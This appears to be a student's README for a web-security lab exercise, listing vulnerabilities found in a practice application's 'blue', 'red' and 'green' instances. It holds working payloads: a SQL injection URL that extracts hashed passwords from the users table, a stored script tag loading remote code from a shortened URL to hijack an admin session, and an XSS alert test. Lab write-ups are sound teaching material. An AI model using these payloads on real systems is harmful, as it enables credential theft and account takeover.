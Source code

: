 # project-8
blue:
Vulnerability #1: SQL Injection (SQLi)
![](https://github.com/guanomite/project-8-/blob/master/Screenshot%20(23).png)
put this command in the URL: https://35.184.88.145/blue/public/salesperson.php?id=%27+union+select+1%2C2%2C3%2C4%2Chashed_password+FROM+users+limit+20+offset+2+--+
Vulnerability #2:Session Hijacking/Fixation
![](https://github.com/guanomite/project-8-/blob/master/Screenshot%20(31).png)
When logged in as an admin go to "Countries, States, & Territories".
Click on "Show", doesn't matter which country.
Click on "Add a State".
Enter values for "Name" and "Code" and click create.
Click on "Add a Territory".
Ender a value for "Name".
In the filed "Position" type:
      <script src="https://bit.ly/2z1UCVh"></script>
      then relog as admin and the public user will log in as admin
red:
Vulnerability #1: Insecure Direct Object Reference (IDOR)
![](https://github.com/guanomite/project-8-/blob/master/Screenshot%20(18).png)
Go to the "Find a Salesperson" page.
Click on one of the salespersons page.
Increment the number at the end of the URL.
Vulnerability #2: CSRF
![](https://github.com/guanomite/project-8-/blob/master/Screenshot%20(33).png)
go to burp, then repeator in the user list, change user name to somthing then refrash the page, then see the change 

green:
Vulnerability #1: Username Enumeration
![](https://github.com/guanomite/project-8-/blob/master/Screenshot%20(32).png)
On the Log In page try to bruteforce diffent usernames.
The usernames tha exist in the database will get the message "Log in was unsuccessful" in bald.
The error message is highlited in bald because a different CSS class is assigned to the error message for usernames that exit in the database.

Vulnerability #2: XSS
![](https://github.com/guanomite/project-8-/blob/master/Screenshot%20(30).png)
go to contact us use a XSS scrpt <script>alert('something');</script> as the public user, after that go admin then user feedback and the meassge pops up
